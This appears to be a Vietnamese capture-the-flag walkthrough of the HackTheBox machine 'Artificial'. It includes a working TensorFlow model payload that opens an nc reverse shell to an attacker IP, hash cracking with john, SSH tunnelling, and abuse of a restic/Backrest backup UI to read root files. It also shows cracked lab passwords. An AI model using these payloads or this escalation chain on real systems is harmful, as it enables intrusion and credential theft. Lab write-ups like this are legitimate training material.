


<p align="center"></p>

# Artificial Hackthebox
## Nmap, ssh, john, retic, sqlite3
### Nmap
```
nmap -sCV artificial.htb -oA nmap/output
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</pre>

### Mở trang port 80
<p align="center"></p>

### Đăng kí và tạo tài khoản chạy mã độc
Tham khảo khai thác [link](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model)
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
</pre>
Chạy python3.10 với tensor `tensorflow-cpu==2.13.1` để gen ra file exploit.h5
### Upload file và view prediction
Lắng nghe cổng 6666
```
nc -lvnp 6666
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
nc -lvnp 6666                  
listening on [any] 6666 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.74] 46890
/bin/sh: 0: can't access tty; job control turned off
$ ls
</pre>
Giữ phiên 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
script /dev/null -qc /bin/bash
SHELL=/bin/bash script -q /dev/null
Ctrl + z
stty raw -echo; fg
```
### Crask mật khẩu
Tìm file user.db trong `~/app/instance/users.db`. 
Crash trên `craskstation.net`
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
c99175974b6e192936d97224638a34f8	md5	mattp005numbertwo
</pre>
### SSH vào user `gael`
Thấy có trong group `sysadm`
```
id
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
```
 

Tìm thư mục thuộc group `sysadm`
```
find / -group sysadm 2>/dev/null

/var/backups/backrest_backup.tar.gz
```

Tải về  và check `config.json`

<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
    {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
</pre>
### Dùng cyberchef để decode base64
<p align="center"></p>

### Dùng john crask pass 
```
john --wordlist=/usr/share/wordlists/rockyou.txt  hash    
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^           (?)     
1g 0:00:00:07 DONE (2025-06-27 10:11) 0.1356g/s 732.7p/s 732.7c/s 732.7C/s derek1..huevos
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Pass `!@#$%^`

### Và thấy mở port `8989`

```
netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:9898          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:* 
```
Forward port 
```
 ssh -L 9898:127.0.0.1:9898 gael@artificial.htb
 ```
### Đănng nhập `http://127.0.0.1:9898/#/plan/test`
User `backrest_root` pass `!@#$%^`
### Khai thác back up restic
#### Tạo repo test mount vs thư mục `tmp/test`
#### Tạo plan vs back up `root/root.txt` để lấy flag hoặc `/root/.ssh/id_rsa` để ssh vào root
#### Back up now xong đó check id và ấn `Run command`chạy lệnh 
``` 
dump 9c6c400b /root/root.txt
```